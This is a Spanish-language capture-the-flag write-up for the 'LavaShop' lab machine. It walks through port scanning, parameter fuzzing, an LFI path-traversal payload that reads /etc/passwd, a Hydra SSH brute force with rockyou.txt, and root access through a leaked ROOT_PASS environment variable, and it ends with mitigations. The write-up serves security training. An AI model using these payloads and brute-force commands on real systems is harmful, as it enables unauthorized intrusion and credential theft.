## Información General

| Campo             | Detalle           |
| ----------------- | ----------------- |
| Máquina           | LavaShop          |
| Plataforma        | TheHackersLabs    |
| Dificultad        | Facil             |
| Sistema Operativo | Linux (Debian 12) |
| IP objetivo       | 192.168.241.169   |
| Autor             | elc0ket           |

## Resumen del Ataque

La máquina expone un servidor web Apache con una tienda de lámparas de lava (LavaShop) que carga contenido dinámico mediante un parámetro de página. El primer intento de Local File Inclusion sobre `index.php?page=` falló, pero el fuzzing de parámetros sobre `pages/products.php` reveló un parámetro `file` vulnerable a LFI, permitiendo leer `/etc/passwd` y enumerar usuarios del sistema. Con la lista de usuarios obtenida, un ataque de fuerza bruta por SSH con Hydra y rockyou.txt comprometió al usuario `debian` con credenciales débiles (`debian:12345`). Ya dentro, la variable de entorno `ROOT_PASS` quedó expuesta en texto plano al ejecutar `env`, permitiendo escalar directamente a root con `su`.

## Técnicas Usadas

- Escaneo de puertos con Nmap (`-p-` y `-sC -sV`)
- Descubrimiento de virtual host (`lavashop.thl`) y edición de `/etc/hosts`
- Enumeración de directorios y ficheros con Gobuster
- Fuzzing de nombres de parámetros GET con Wfuzz
- Local File Inclusion (LFI) para lectura de `/etc/passwd`
- Fuerza bruta de credenciales SSH con Hydra + rockyou.txt
- Escalada de privilegios por exposición de secreto en variable de entorno (`ROOT_PASS`)

## Desarrollo

### 1. Escaneo de puertos

```
sudo nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 192.168.241.169
```



### 2. Enumeración de servicios

```
nmap -p 22,80,1337 -sC -sV -oN allports 192.168.241.169
```



El puerto 80 redirige a `lavashop.thl`, por lo que se añade la entrada correspondiente en `/etc/hosts`.

### 3. Reconocimiento web

```
http://lavashop.thl/
```



Revisando el código fuente se observa que la navegación usa un parámetro de página:

```
<a href="/index.php?page=home">Inicio</a>
<a href="/index.php?page=products">Productos</a>
<a href="/index.php?page=about">Sobre Nosotros</a>
<a href="/index.php?page=contact">Contacto</a>
```

### 4. Enumeración de directorios

```
gobuster dir -u http://lavashop.thl/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html
```



```
gobuster dir -u http://lavashop.thl/pages -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html
```



### 5. Intento fallido de LFI sobre index.php

```
http://lavashop.thl/index.php?page=../../../../etc/passwd
```



El parámetro `page` de `index.php` no es explotable directamente (o filtra el patrón). Se descarta esta vía y se pasa a fuzzear nombres de parámetros sobre los ficheros descubiertos en `pages/`.

### 6. Fuzzing de parámetros sobre products.php

```
wfuzz -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -u "http://lavashop.thl/pages/products.php?FUZZ=whaomi" --hh 1002
```



Se identifica el parámetro `file`, no visible en el código fuente ni en la navegación normal.

### 7. Explotación del LFI

```
http://lavashop.thl/pages/products.php?file=../../../../etc/passwd
```



Se obtiene la lista de usuarios del sistema, destacando dos cuentas con shell interactiva: `debian` y `Rodri`.

### 8. Fuerza bruta SSH

```
hydra -l debian -P /usr/share/wordlists/rockyou.txt ssh://192.168.241.169 -t 4
```



### 9. Acceso inicial

```
ssh debian@192.168.241.169
```

```
debian@Thehackerslabs-LavaShop:/$ whoami
```



### 10. Flag de usuario

```
debian@Thehackerslabs-LavaShop:/$ cd /home
debian@Thehackerslabs-LavaShop:/home$ ls
debian@Thehackerslabs-LavaShop:/home$ cd Rodri/
debian@Thehackerslabs-LavaShop:/home/Rodri$ ls
debian@Thehackerslabs-LavaShop:/home/Rodri$ cat user.txt
```



### 11. Enumeración de privilegios (sudo y SUID)

```
debian@Thehackerslabs-LavaShop:/home/Rodri$ sudo -l
```



```
debian@Thehackerslabs-LavaShop:/home/Rodri$ find / -perm -4000 -type f 2>/dev/null
```



Ninguno de estos caminos es aprovechable directamente. Se descartan y se revisa el entorno de la shell.

### 12. Escalada de privilegios vía variable de entorno

```
debian@Thehackerslabs-LavaShop:/home/Rodri$ env
```



La variable `ROOT_PASS` queda expuesta en el entorno de la sesión, filtrando la contraseña de root.

```
debian@Thehackerslabs-LavaShop:/home/Rodri$ su root
```

```
root@Thehackerslabs-LavaShop:/home/Rodri# whoami
```



### 13. Flag de root

```
root@Thehackerslabs-LavaShop:/home/Rodri# cd /root
root@Thehackerslabs-LavaShop:~# cat root.txt
```



## Lecciones Aprendidas

- Un endpoint concreto (`index.php?page=`) puede estar protegido frente a LFI mientras que otro endpoint de la misma aplicación (`products.php?file=`) queda expuesto sin sanitización: no basta con probar el parámetro "obvio" visible en el HTML.
- El fuzzing de nombres de parámetros (Wfuzz sobre `FUZZ=`) es clave para descubrir funcionalidad oculta que no aparece en el código fuente ni en la navegación.
- Contraseñas débiles (`12345`) siguen siendo un vector de entrada trivial incluso con SSH correctamente configurado.
- Variables de entorno como método para "compartir" credenciales entre procesos filtran secretos a cualquier usuario con acceso a shell.

## Medidas de Mitigación

- Sanitizar y validar cualquier parámetro usado para incluir ficheros (whitelist de valores permitidos, uso de `basename()` y comprobación de path traversal) en todos los endpoints, no solo en el principal.
- Aplicar una política de contraseñas robusta y bloqueo/ratelimiting tras intentos fallidos de SSH (fail2ban, límites de intentos).
- No almacenar credenciales en variables de entorno accesibles a usuarios sin privilegios; usar gestores de secretos o ficheros con permisos restringidos (`600`, propietario root).
- Revisar periódicamente el entorno de ejecución de los servicios y de las shells de usuario en busca de secretos filtrados.


